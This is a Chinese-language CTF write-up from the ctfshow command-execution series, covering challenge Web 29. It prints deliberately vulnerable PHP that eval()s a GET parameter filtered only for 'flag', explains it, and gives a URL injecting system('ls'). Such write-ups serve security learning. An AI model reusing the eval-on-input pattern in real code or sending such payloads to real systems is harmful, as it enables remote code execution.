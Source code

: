 ```yaml
---
description: >-
  这里就记录一下ctfshow的刷题记录是web入门的命令执行专题里面的题目，他是有分类，并且覆盖也很广泛，所以就通过刷这个来，不过里面有一些脚本的题目发现我自己根本不会笑死。
---
```


# 😅 CTFSHOW命令执行

## <mark style="color:blue;background-color:orange;">（1）Web 29</mark>

### 1.代码解释

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这段代码非常简单，就是通过get获得的变量c，如果里面不含有flag这个字符，就把c变量做为php代码执行。

### 2.解答过程

所以我们先查看当前目录下的文件。

```php
http://21631e8d-00f2-42ec-991a-0bc5b5d7d661.challenge.ctf.show/?c=system("ls");
```
